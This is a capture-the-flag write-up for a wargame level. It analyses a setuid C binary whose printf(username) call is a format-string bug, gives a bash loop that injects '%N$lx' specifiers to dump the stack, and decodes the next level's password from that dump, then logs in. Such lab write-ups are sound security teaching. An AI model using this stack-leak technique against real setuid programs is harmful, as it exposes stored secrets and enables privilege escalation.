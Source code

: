 # LEVEL02 - FORMAT STRING EXPLOITATION 1

We have a binary named level02 at /home/users/level02/

It is owned by `level03` and has a `setuid bit`

The program first define some buffers and variables
```c
int main(void)
{
	char password[96];
	char ptr[48];
	char username[96];
	int passwordSize;
	FILE *stream;
```

And initialize them with zeroes
```c
memset(username, 0, sizeof(username));
memset(ptr, 0, 41);
memset(password, 0, sizeof(password));
stream = 0;
passwordSize = 0;
```

Then the program tries to open the file `/home/users/level03/.pass` to read it and compare the number of characters read to `41`

This is likely a `gdb` protection to prevent users from reversing the binary since the `setuid bit` is not effective in `gdb` and thus, we have not the read rights on this file
```c
stream = fopen("/home/users/level03/.pass", "r");
if ( !stream )
{
	fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
	exit(1);
}

passwordSize = fread(ptr, 1, 41, stream);
ptr[strcspn(ptr, "\n")] = 0;
if ( passwordSize != 41 )
{
	fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
	fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
	exit(1);
}
fclose(stream);
```

Then it prints some lines and prompts for a `username` and a `password`
```c
puts("===== [ Secure Access System v1.0 ] =====");
puts("/***************************************\\");
puts("| You must login to access this system. |");
puts("\\**************************************/");

printf("--[ Username: ");
fgets(username, 100, stdin);
username[strcspn(username, "\n")] = 0;

printf("--[ Password: ");
fgets(password, 100, stdin);
password[strcspn(password, "\n")] = 0;
	
puts("*****************************************");
```

We can see that we overflow only 4 bytes in each buffer which means we can't overwrite the return address of main like in level01
```c
char password[96];
char username[96];

fgets(username, 100, stdin);
fgets(password, 100, stdin);
```

The program then compares the `password` typed by the user and the content of the file it has read

If both are not equal we exit the program, else we launch `system("/bin/sh")`
```c
	if (strncmp(ptr, password, 41))
	{
		printf(username);
		puts(" does not have access!");
		exit(1);
	}
	printf("Greetings, %s!\n", username);
	system("/bin/sh");
	return 0;
}
```

And here we can observe that the `username` is passed directly to printf without any form of parsing which means this program is vulnerable to Format String Exploitation
```c
printf(username);
```

We can also see that the content of the file that we need (`/home/users/level03/.pass`) is actually loaded into the memory since it was opened and read from, we can use `%x` or `%lx` directly inside the username to get a dump of the program's stack

Here is a little bash loop that will gracefully display the dump
```bash
#!/bin/bash
for i in $(seq 1 $1); do
	echo "$i:	$(echo -n "a %$i\$lx" | /home/users/level02/level02 | sed -n '6p' | cut -d' ' -f2)"
done
```

We know that the password is 41 bytes long  (including `\0`), every bytes is a printable character and all ascii printable characters are between 21(hex) and 7e(hex) so we can already cleanup the dump
```
22:     756e505234376848
23:     45414a3561733951
24:     377a7143574e6758
25:     354a35686e475873
26:     48336750664b394d
```

We are left with a 40 consecutive displayable bytes which we invert back to big endian
```
4868373452506e75
51397361354a4145
58674e5743717a37
7358476e68354a35
4d394b6650673348
```

Then we traduce to ASCII
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try the flag
```
ssh -p 42421 level03@$WINIP
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 10.0.2.15:4242
level03@172.29.64.1's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```